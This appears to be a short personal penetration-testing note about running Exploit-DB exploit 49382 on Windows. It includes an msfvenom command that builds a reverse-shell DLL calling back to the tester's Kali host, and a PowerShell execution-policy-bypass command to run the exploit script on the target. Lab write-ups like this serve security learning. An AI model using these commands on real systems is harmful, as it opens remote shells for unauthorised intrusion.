 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

exploit 49382


Looking at the script we see the need to generate a reverse shell .dll payload. Then execute the .ps1 targeting the .dll.

```bash - kali
sudo msfvenom -p windows/shell_reverse_tcp -f dll -o shell.dll LHOST=$KALI LPORT=445
```

Edit the .ps1 to target the location of the .dll.

![[Pasted image 20220404152727.png]]

Upload both, the dll and ps1 file to target.

```command prompt - windows
powershell.exe -ep bypass .\49382.ps1
```




